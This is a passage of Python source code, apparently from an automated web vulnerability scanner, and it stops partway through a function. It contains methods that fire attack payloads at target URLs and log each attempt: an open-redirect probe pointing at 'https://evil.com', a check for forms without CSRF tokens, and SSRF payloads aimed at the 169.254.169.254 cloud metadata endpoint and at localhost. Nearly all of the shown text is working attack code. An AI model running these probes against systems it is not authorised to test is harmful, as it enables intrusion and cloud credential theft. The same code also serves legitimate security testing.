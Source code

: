 
    def test_open_redirect(self, url):
        payload = "https://evil.com"
        print(f"[*] Testing Open Redirect on {url}...")
        success = 0
        http_code = 0
        response_size = 0
        waf_detected = 0
        try:
            test_url = f"{url}?redirect={payload}" if "?" in url else f"{url}?redirect={payload}"
            response = self.session.get(test_url, allow_redirects=False, timeout=10)
            if response.status_code in [301, 302] and payload in response.headers.get("Location", ""):
                print(f"[!] Open Redirect found on {url} with payload: {payload}")
                self.vulnerabilities.append({"type": "Open Redirect", "url": url, "payload": payload})
                success = 1
            http_code = response.status_code
            response_size = len(response.text)
        except:
            pass
        self.log_attack(url, "Open Redirect", success, payload, http_code, response_size, waf_detected)
        return success == 1

    def test_csrf(self):
        print("[*] Testing CSRF on forms...")
        for form in self.forms:
            if form["method"] == "post":
                success = 0
                payload = "N/A"
                http_code = 0
                response_size = 0
                waf_detected = 0
                try:
                    response = self.session.get(form["action"], timeout=10)
                    soup = BeautifulSoup(response.text, "html.parser")
                    token = soup.find("input", {"name": re.compile("csrf|token", re.I)})
                    if not token:
                        print(f"[!] CSRF vulnerability found on {form['action']} - No CSRF token detected!")
                        self.vulnerabilities.append({"type": "CSRF", "url": form["action"], "details": "No CSRF token"})
                        success = 1
                    http_code = response.status_code
                    response_size = len(response.text)
                except:
                    continue
                self.log_attack(form["action"], "CSRF", success, payload, http_code, response_size, waf_detected)
                if success:
                    return True
        return False

    def test_ssrf(self, url):
        payloads = ["http://169.254.169.254/latest/meta-data/", "http://localhost:80", "http://127.0.0.1:8080"]
        print(f"[*] Testing SSRF on {url}...")
        for payload in payloads:
            success = 0
            http_code = 0
            response_size = 0
            waf_detected = 0
            try:
                test_url = f"{url}?url={payload}" if "?" in url else f"{url}?url={payload}"
                response = self.session.get(test_url, timeout=10)
                if "ami-id" in response.text or "admin" in response.text:
                    print(f"[!] SSRF found on {url} with payload: {payload}")
                    self.vulnerabilities.append({"type": "SSRF", "url": url, "payload": payload})
                    success = 1
                http_code = response.status_code